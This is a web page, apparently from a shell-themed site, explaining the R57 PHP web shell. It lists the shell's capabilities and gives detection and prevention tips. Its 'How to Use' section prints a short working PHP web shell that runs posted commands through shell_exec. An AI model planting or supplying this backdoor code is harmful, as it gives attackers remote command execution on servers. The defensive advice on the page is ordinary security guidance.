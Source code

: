 # R57 Shell - Updated Version Works on All PHP Versions and Its Usage and Effects on Servers

## Images

![R57 Shell](https://r00t-shell.com/wp-content/uploads/2025/02/R57-Shell.png)

💻 **A Detailed Analysis on Cybersecurity and Web Security**

## What is R57?

R57 Shell is a type of **web shell** commonly used by malicious actors. This PHP-based ability allows attackers to control a server remotely. Web shells are used for tasks such as file management, command execution, and data theft on servers.

## What Can R57 Do on a Server?

When R57 Shell is uploaded to a server, it can perform the following actions:

- 📂 **File Management:** Uploading, downloading, editing, and deleting files.
- 🖥️ **Command Execution:** Running operating system-level commands on the server.
- 📊 **Database Management:** Accessing databases and executing SQL queries.
- 🔍 **Gathering Server Information:** Viewing server details such as the operating system, PHP version, and configuration.
- 🚪 **Creating Backdoors:** Setting up backdoors for future access.

## How to Use R57

R57 Shell is typically uploaded to a server as a PHP file. The attacker executes this file to control the server through a web-based interface. Here’s an example:

```php
<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>
```

This code provides a command execution feature. An attacker can use this code to execute commands on the server.

## Detection and Prevention of R57

> ⚠️ **Warning:** Abilities like R57 Shell are used for illegal activities and pose serious security risks. If you detect such a file on your server, you should remove it immediately.

To detect and prevent R57 Shell, you can follow these steps:

- 🔒 **Fix Security Vulnerabilities:** Regularly patch security vulnerabilities in your web application.
- 🛡️ **File Upload Controls:** Check the type and content of uploaded files.
- 🔍 **Log Analysis:** Review server logs to identify suspicious activities.
- 🧹 **File Scanning:** Scan and remove suspicious PHP files on the server.

> ✅ **Tip:** Use a Web Application Firewall (WAF) to block malicious traffic.


> **Note:** Make sure to replace the image link with a valid one if you need to add any.
